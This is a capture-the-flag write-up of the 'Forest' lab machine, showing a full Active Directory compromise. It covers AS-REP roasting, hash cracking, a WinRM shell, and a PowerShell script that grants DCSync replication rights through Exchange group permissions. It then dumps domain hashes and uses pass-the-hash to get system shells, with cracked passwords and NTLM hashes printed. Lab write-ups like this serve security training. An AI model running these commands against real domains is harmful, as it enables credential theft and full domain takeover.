









## Overview

Forest is a Windows Server box running Active Directory Domain Services. I was able to enumerate the domain's user accounts and use an attack called ASRepRoast on the svc-alfresco account which provided a TGT (Ticket Granting Ticket) due to the account not requiring kerberos preauthentication. The hash in the TGT was cracked with hashcat giving me the account's password which I used to obtain a shell over winrm with a tool called evil-winrm. As a result of the AD schema being extended (a prerequisite for installing Exchange Server) a privilege escalation vulnerability was introduced where an exchange group had excessive permissions. The vulnerability was responsibly disclosed to MSRC in October 2017 but Microsoft's response was that it was working as intended and was not going to fix it. Running Bloodhound I was able to determine svc-alfresco had permissions to add users to the Exchange Windows permissions (EWP) security group. Two different approaches were used to escalate privileges and dump the domain hashes each using wmiexec.py or psexec.py to get a shell as htb\administrator and 'nt authority\system'.

## Enumeration

**Software**

* Windows Server 2016 Standard 14393

**Port Scan**

```
nmap -vv --reason -Pn -Pn -sT -A --osscan-guess -p- -oN /mnt/data/boxes/forest/_full_tcp_nmap.txt
```

* 53/tcp - dns
* 88/tcp - Microsoft Windows Kerberos (server time: 2020-03-18 13:32:51Z)
* 135/tcp - Microsoft Windows RPC
* 139/tcp - Microsoft Windows netbios-ssn
* 389/tcp - Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
* 445/tcp -Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
* 464/tcp - kpasswd5? 
* 593/tcp - Microsoft Windows RPC over HTTP 1.0
* 636/tcp - tcpwrapped
* 3268/tcp - Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
* 3269/tcp - tcpwrapped
* 5985/tcp - Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 9389/tcp - .NET Message Framing
* 47001/tcp - Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 49664/tcp - Microsoft Windows RPC
* 49665/tcp - Microsoft Windows RPC
* 49666/tcp - Microsoft Windows RPC
* 49667/tcp - Microsoft Windows RPC
* 49671/tcp - Microsoft Windows RPC
* 49676/tcp - Microsoft Windows RPC
* 49677/tcp - Microsoft Windows RPC over HTTP 1.0
* 49684/tcp - Microsoft Windows RPC
* 49703/tcp - Microsoft Windows RPC
* 49913/tcp - Microsoft Windows RPC

**nmap script scan / smb**

```
nmap -A -p 445 10.10.10.161 -oN /mnt/data/boxes/forest/_smb_nmap.txt

Host script results:
|_clock-skew: mean: 2h27m55s, deviation: 4h02m32s, median: 7m53s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2020-05-05T15:56:44-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-05-05T22:56:42
|_  start_date: 2020-05-05T22:07:00
```

**enum4linux**

```
enum4linux -a 10.10.10.161
```

* Group 'Domain Users' (RID: 513) has member: HTB\Administrator
* Group 'Domain Users' (RID: 513) has member: HTB\DefaultAccount
* Group 'Domain Users' (RID: 513) has member: HTB\krbtgt
* Group 'Domain Users' (RID: 513) has member: HTB\$331000-VK4ADACQNUCA
* Group 'Domain Users' (RID: 513) has member: HTB\SM_2c8eef0a09b545acb
* Group 'Domain Users' (RID: 513) has member: HTB\SM_ca8c2ed5bdab4dc9b
* Group 'Domain Users' (RID: 513) has member: HTB\SM_75a538d3025e4db9a
* Group 'Domain Users' (RID: 513) has member: HTB\SM_681f53d4942840e18
* Group 'Domain Users' (RID: 513) has member: HTB\SM_1b41c9286325456bb
* Group 'Domain Users' (RID: 513) has member: HTB\SM_9b69f1b9d2cc45549
* Group 'Domain Users' (RID: 513) has member: HTB\SM_7c96b981967141ebb
* Group 'Domain Users' (RID: 513) has member: HTB\SM_c75ee099d0a64c91b
* Group 'Domain Users' (RID: 513) has member: HTB\SM_1ffab36a2f5f479cb
* Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxc3d7722
* Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxfc9daad
* Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxc0a90c9
* Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox670628e
* Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox968e74d
* Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox6ded678
* Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox83d6781
* Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxfd87238
* Group 'Domain Users' (RID: 513) has member: HTB\HealthMailboxb01ac64
* Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox7108a4e
* Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox0659cc1
* Group 'Domain Users' (RID: 513) has member: HTB\sebastien
* Group 'Domain Users' (RID: 513) has member: HTB\lucinda
* Group 'Domain Users' (RID: 513) has member: HTB\svc-alfresco
* Group 'Domain Users' (RID: 513) has member: HTB\andy
* Group 'Domain Users' (RID: 513) has member: HTB\mark
* Group 'Domain Users' (RID: 513) has member: HTB\santi

## Steps (user)

There were a few results from the nmap scan. I started with DNS but was not able to get any information. I was able to connect anonymously to smb but received errors. 



enum4linux provided a bunch of information from from ldap including a list of users from the domain. I ran GetNPUsers.py which attempts to list and get TGTs for those users that have the property 'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH). I built a list of users from the enum4linux output and saved it to users.txt

> GetNPUsers.py is part of suite of tools created by Impacket.  [Impacket](https://github.com/SecureAuthCorp/impacket) is a collection of Python classes for working with network protocolsis a script 

A TGT for the svc-alfresco account was successfully requested 

```
~/tools/impacket/examples/GetNPUsers.py htb.local/ -no-pass -usersfile users.txt -format hashcat -outputfile forest.hash 
```



I used hashcat to crack the hash using the rockyou wordlist

```
.\hashcat64.exe -a 0 -m 18200 .\forest.hash .\rockyou.txt --force
```



```
svc-alfresco:s3rvice
```

5385 was open which meannt WS-MAN was running. Since I had credentials, I connected using [evil-winrm](https://github.com/Hackplayers/evil-winrm) and got a shell.



## Steps (root/system)

I used a tool called Bloodhound to look for privilege escalation paths

> [Bloodhound](https://bloodhound.readthedocs.io/en/latest/index.html) uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Defenders can use BloodHound to identify and eliminate those same attack paths. Both blue and red teams can use BloodHound to easily gain a deeper understanding of privilege relationships in an Active Directory environment.

On my box I started neo4j and started bloodhound

```
neo4j console
bloodhound
```

I started and smb server using the tool from impacket in preperation to copy files to the target.

```
~/tools/impacket/examples/smbserver.py share `pwd`
```

I copied Sharphound to the target and ran it with the -c all parameter to collect all data. Sharphound collects data from the directory and saves it to a zip file which can be imported into bloodhound for analysis.

```
xcopy \\10.10.14.18\share\SharpHound.exe
sharphound.exe -c all 
```

I copied the resulting zip file back to my box and imported it into bloodhound. 



After running a few queries I noticed something interesting after running "shortest paths to unconstrained delegation systems". The svc-alfresco, is in the group "service accounts", which a member of "privileged it accounts", which is a member of "account operators", which is a member of "Exchange Windows Permissions" which has the "WriteDacl" permission on the htb.local domain.



After researching exploits that involve the "Exchange Windows Permissions" group I came across this article: https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md which explains that "A privilege escalation is possible from the Exchange Windows permissions (EWP) security group to compromise the entire prepared Active Directory domain." 

In the win-rm session I used powershell to create a new account in Active Directory. I created a new service account and added the service account to the "Remote Management Users" group so I could log in via win-rm.

> In previous attempts I had tried to use the svc-alfresco account but the settings for this account were being reverted very frequently so I opted to create a new account which worked much better.

```Powershell
### Account info
$user_pass = ConvertTo-SecureString "password123!" -AsPlainText -Force
$user_name = "user1"

### Create new user
New-ADUser -Name $user_name -GivenName $user_name -Surname $user_name -SamAccountName $user_name -UserPrincipalName "$user_name @htb.local" -Path "CN=Users,DC=htb,DC=local" -AccountPassword $user_pass -Enabled $true

### Add user to Remote Management Users and Exchange Windows Permissions
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members (Get-ADUser -Identity $user_name)
Add-ADGroupMember -Identity "Remote Management Users" -Members (Get-ADUser -Identity $user_name)
```

I could then log on via evil-winrm with the new user

```
evil-winrm -i 10.10.10.161 -u user1 -p password123!
```

I ran the commands from the referenced article which gives the target account the "Ds-Replication-Get-Changes" and "Ds-Replication-Get-Changes-All" extended rights on the domain object. This gave the account access rights that allow replication of secret domain data.

```Powershell
Import-Module ActiveDirectory
$acl = get-acl "ad:DC=htb,DC=local"
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
$sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
# rightsGuid for the extended right Ds-Replication-Get-Changes-All
$objectguid = new-object Guid  1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
$identity = [System.Security.Principal.IdentityReference] $sid
$adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
$type = [System.Security.AccessControl.AccessControlType] "Allow"
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
# rightsGuid for the extended right Ds-Replication-Get-Changes
$objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
$acl.AddAccessRule($ace)
Set-acl -aclobject $acl "ad:DC=htb,DC=local"
```

Since the account now had the required permissions, secretsdump.py was run to get the domain hashes.

```
~/tools/impacket/examples/secretsdump.py "user1:password123!"@10.10.10.161
```

```
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...truncated...
```

I copied the administrator hash from the secretsdump output and used it with the -hashes parameter with psexec.py to get a shell as 'nt authority\system'

```
~/tools/impacket/examples/psexec.py htb.local/administrator@10.10.10.161 -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```



**Alternate Privesc path**

An alternative way to do this is to use aclpwn which basically automates all the steps that were done in powershell above.

> https://github.com/fox-it/aclpwn.py.git

Neo4j and Bloodhound were both still running from earlier (aclpwn requires they both be running).

I ran aclpwn.py, specifying the domain username and the ne4j username and password

```
python ./aclpwn.py/aclpwn.py -f svc-alfresco@htb.local -d htb.local -s 10.10.10.161 -du neo4j -dp password
>> enter password "s3rvice" when prompted <<
press option 1
```

The account now had permissions to dump domain hashes

```
~/tools/impacket/examples/secretsdump.py "svc-alfresco:s3rvice"@10.10.10.161
```

I copied the administrator hash from the secretsdump output and used it with the -hashes parameter with wmixec.py to get a shell as 'htb\administrator'

```
~/tools/impacket/examples/wmiexec.py htb.local/administrator@10.10.10.161 -no-pass -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```


